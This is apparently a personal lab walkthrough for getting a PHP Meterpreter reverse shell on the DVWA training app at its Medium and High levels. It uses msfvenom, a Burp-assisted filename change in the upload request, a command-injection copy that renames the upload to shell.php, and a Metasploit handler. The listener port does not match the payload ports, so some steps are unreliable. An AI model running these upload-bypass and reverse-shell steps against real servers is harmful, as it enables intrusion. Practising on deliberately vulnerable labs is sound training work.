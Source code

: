 Reverse Shell

* MEDIUM

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=3333 -f raw
```
Copy the payload
```
nano upload.php.jpg
	Paste the paylaod
```
Login to dvwa
Before uploading the file turn on burpsuite
upload it
Change filename to upload.php inthe request captured
Send it
Note down the location
```
msfconsole
use /exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost hostip
set lport 4444
run
```
Go to browser and paste the location and press enter
Go to meterpreter
Reverse Shell

* HIGH

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=2222 -f raw
```
Copy the payload
```
nano upload.jpeg
	Paste it
```
Login to dvwa
Upload this file
note down the location
Now
in command injection - >
ip |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php

```
msfconsole
use /exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost hostip
set lport 4444
run
```
Go to browser and paste the new php location and press enter
Go to meterpreter
Reverse Shell
